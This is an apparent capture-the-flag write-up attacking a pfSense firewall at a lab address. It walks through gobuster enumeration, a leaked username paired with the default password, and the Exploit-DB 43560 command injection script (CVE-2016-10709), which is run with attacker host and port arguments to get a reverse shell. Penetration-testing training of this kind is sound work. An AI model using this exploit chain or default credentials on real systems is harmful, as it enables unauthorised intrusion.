






# <center>pfSense</center>

# No DNS records



# index.php




# Gobuster


```bash
$ gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -o gobuster/txtextention.txt -k -x ".txt"
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]
```


# system-users.txt

company defaults is "pfsense" which is the default password of pfsense.
username is rohit




# index.php (Authenticated)


# Searchsploit




# [Exploit](https://www.cvedetails.com/cve/CVE-2016-10709/)

```bash
searchsploit -m php/webapps/43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

```bash
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username 'rohit' --password 'pfsense'
CSRF token obtained
Running exploit...
Exploit completed
```

# Shell


